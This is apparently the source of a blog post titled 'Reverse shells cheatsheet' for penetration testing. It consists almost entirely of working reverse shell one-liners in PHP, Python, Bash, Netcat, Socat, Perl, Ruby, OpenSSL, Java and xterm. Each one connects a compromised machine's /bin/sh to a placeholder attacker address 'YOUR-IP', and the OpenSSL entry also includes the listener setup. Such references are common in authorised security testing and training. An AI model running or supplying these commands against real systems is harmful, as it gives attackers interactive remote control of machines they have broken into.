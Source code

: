 ```yaml
---
title: "Reverse shells cheatsheet"
excerpt_separator: "<!--more-->"
author_profile: false
categories:
  - cheatsheet
tags:
  - cheatsheet
  - pentest
  - hacking
---
```


### Reverse Shells

Replace "YOUR-IP" with your machines IP address ie: 192.168.1.1, also make sure to set your port too!

#### PHP :

```console
php -r '$sock=fsockopen("YOUR-IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### Python :

```console
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR-IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### Bash :

```console
bash -i >& /dev/tcp/YOUR-IP/8080 0>&1
```

#### Netcat :

```console
nc -e /bin/sh YOUR-IP 4444
```

#### Socat :

```console
socat tcp-connect:YOUR-IP:4444 system:/bin/sh
```

#### Perl :

```console
perl -e 'use Socket;$i="YOUR-IP";$p=4545;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### Ruby :

```console
ruby -rsocket -e'f=TCPSocket.open("YOUR-IP",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

#### OpenSSL:

On your machine (to receive, not a normal TCP connection)
```console
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes # generate some arbitrary cert
openssl s_server -quiet -key key.pem -cert cert.pem -port 4444
```

On PWN'd client
```console
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect YOUR-IP:4444 > /tmp/s; rm /tmp/s
```

#### Java :

```console
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5< >/dev/tcp/YOUR-IP/4444;cat <& 5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

#### xterm :

```console
xterm -display YOUR-IP:4444
```
